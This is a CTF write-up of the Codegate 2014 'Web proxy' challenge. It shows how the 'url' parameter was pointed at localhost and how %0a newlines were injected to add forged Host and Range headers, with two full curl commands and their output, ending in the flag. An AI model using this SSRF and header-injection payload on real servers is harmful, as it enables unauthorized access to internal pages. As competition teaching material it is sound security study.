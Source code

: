 ```yaml
---
title: Codegate CTF Quals 2014 Web Proxy writeup
author: deadcat
layout: post
permalink: /2014-02-25-codegate-ctf-quals-2014-web_proxy-writeup/
comments: true
categories:
  - CTF
  - writeup
---
```


```
http://58.229.183.25/188f6594f694a3ca082f7530b5efc58dedf81b8d/index.php
```

Here is a GET param named "url", we could use it to get some header and body informaiton of a webpage.

and in the index.php's source code, we can find this:


	<!-- admin/index.php -->

So it's clear that we will use that GET param "url" to access /admin/index.php

use "localhost" instead of "58.229.183.25", and find out that a %0a(\n) will make the body information appears in header field, so there maybe some "http response splitting" trick

after several test, we use two step to got the key.

first step:

	DeAdCaT-2:tmp DeAdCaT___$ curl http://58.229.183.24/188f6594f694a3ca082f7530b5efc58dedf81b8d/index.php?url=127.0.1.1%2F188f6594f694a3ca082f7530b5efc58dedf81b8d/admin/%20HTTP/1.1%0aHost:%20localhost%0aRange:%20bytes=370-%0a%0a
     <html>
     <head>
          <style type="text/css">
          body { margin:0; }
          * { font-family:fantasy; }
          p { height:50pt; font-size:50pt; background:green;  }
          input[type=text] { width:500; font-size:15pt; }
          input[type=submit] { width:150; font-size:15pt; }
          input[type=submit]:hover { background:lightblue; }
          table { font-size:15pt; border:0;}
          .err { background:yellow; font-weight:bold; }
          #l:hover{ color:white; font-weight:bold; }
          </style>
          <title>Web proxy</title>
     </head>
     <body bgcolor=gray><br>
     <p align=center><u><a id=l>W</a><a id=l>E</a><a id=l>B</a> <a id=l>P</a><a id=l>R</a><a id=l>O</a><a id=l>X</a><a id=l>Y</a></u></p>
     <center><form method=get action='/188f6594f694a3ca082f7530b5efc58dedf81b8d/index.php'><input type=text name=url value='127.0.1.1/188f6594f694a3ca082f7530b5efc58dedf81b8d/admin/ HTTP/1.1
     Host: localhost
     Range: bytes=370-

     '><input type=submit value='Submit'></form></center><table border=5 align=center cellpadding=10 width=1000><tr><td bgcolor=yellow><xmp>HTTP/1.1 206 Partial Content
     Date: Sat, 22 Feb 2014 16:11:08 GMT
     Server: Apache/2.4.6 (Ubuntu)
     X-Powered-By: PHP/5.5.3-1ubuntu2.1
     Vary: Accept-Encoding
     Content-Range: bytes 370-429/430
     Content-Length: 60
     Content-Type: text/html</xmp></td></tr><tr align=left><td bgcolor=silver><xmp>

     0
     <!--if($_SERVER[HTTP_HOST]=="hackme")--></body>
     .
     .
     .
     .
     .</xmp></td></tr></table><br>
     <!-- admin/index.php -->
     </body>
     </html>
     
second step:

	     DeAdCaT-2:tmp DeAdCaT___$ curl http://58.229.183.24/188f6594f694a3ca082f7530b5efc58dedf81b8d/index.php?url=127.0.1.1%2F188f6594f694a3ca082f7530b5efc58dedf81b8d/admin/%20HTTP/1.1%0aHost:%20hackme%0aRange:%20bytes=80-%0a%0a
     <html>
     <head>
          <style type="text/css">
          body { margin:0; }
          * { font-family:fantasy; }
          p { height:50pt; font-size:50pt; background:green;  }
          input[type=text] { width:500; font-size:15pt; }
          input[type=submit] { width:150; font-size:15pt; }
          input[type=submit]:hover { background:lightblue; }
          table { font-size:15pt; border:0;}
          .err { background:yellow; font-weight:bold; }
          #l:hover{ color:white; font-weight:bold; }
          </style>
          <title>Web proxy</title>
     </head>
     <body bgcolor=gray><br>
     <p align=center><u><a id=l>W</a><a id=l>E</a><a id=l>B</a> <a id=l>P</a><a id=l>R</a><a id=l>O</a><a id=l>X</a><a id=l>Y</a></u></p>
     <center><form method=get action='/188f6594f694a3ca082f7530b5efc58dedf81b8d/index.php'><input type=text name=url value='127.0.1.1/188f6594f694a3ca082f7530b5efc58dedf81b8d/admin/ HTTP/1.1
     Host: hackme
     Range: bytes=80-

     '><input type=submit value='Submit'></form></center><table border=5 align=center cellpadding=10 width=1000><tr><td bgcolor=yellow><xmp>HTTP/1.1 206 Partial Content
     Date: Sat, 22 Feb 2014 15:51:11 GMT
     Server: Apache/2.4.6 (Ubuntu)
     X-Powered-By: PHP/5.5.3-1ubuntu2.1
     Vary: Accept-Encoding
     Content-Range: bytes 80-126/127
     Content-Length: 47
     Content-Type: text/html</xmp></td></tr><tr align=left><td bgcolor=silver><xmp>

     word is WH0_IS_SnUS_bI1G_F4N
     </body>
     .
     .
     .
     .4
     .</xmp></td></tr></table><br>
     <!-- admin/index.php -->
     </body>
     </html>
     
Password is WH0_IS_SnUS_bI1G_F4N

Cheers :)          
